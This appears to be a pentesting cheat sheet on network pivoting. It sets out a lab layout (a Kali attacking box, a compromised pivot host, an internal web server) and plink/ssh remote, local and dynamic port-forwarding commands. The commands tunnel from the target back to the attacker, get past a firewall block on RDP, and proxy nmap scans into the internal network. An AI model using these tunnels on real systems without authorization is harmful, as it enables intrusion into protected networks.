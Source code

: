 
The Attacking Box (Kali Linux)   
IP: 192.168.1.16   
Netmask: 255.255.255.0   
Gateway: 192.168.1.1   

The pivot host (Windows XP) or linux     
User: lowuser   
FIRST IP: 192.168.1.30   
Netmask: 255.255.255.0   
SECOND IP: 10.0.0.2   
Netmask: 255.0.0.0    

Web server    
IP: 10.0.0.10   
Netmask: 255.0.0.0   

# Port Forwarding
 
Plink.exe is Windows binary for ssh

### Remote Forwarding

To get to server at 10.0.0.10

From Target   
`plink 192.168.1.16 -P 22 -C -R 127.0.0.1:4444:10.0.0.10:80`   
`ssh -p 22  -R 127.0.0.1:4444:10.0.0.10:80 root@192.168.1.16`

From Kali   
`curl 127.0.0.1:4444`

### Local Forwarding

Firewall rule blocking 3389

From Target   
`plink 192.168.1.16 -P 22 -C -L 192.168.1.30:3390:192.168.1.30:3389`   
`ssh -p 22 -L 192.168.1.30:3390:192.168.1.30:3389 root@192.168.1.16`

From Kali   
`rdesktop 192.168.1.30:3390`

### Dynamic Forwarding

From target    
`plink 192.168.1.16 -P 22 -C -R 127.0.0.1:2222:22`    
`ssh -f -N -R 2222:127.0.0.1:22 root@192.168.1.16`

From Kali   
`ssh -f -N -D 127.0.0.1:8080 -p 2222 lowuser@127.0.0.1`

`vi /etc/proxychains.conf`   
`socks4   127.0.0.1   8080`

`proxychains nmap -sT -Pn <IP>`

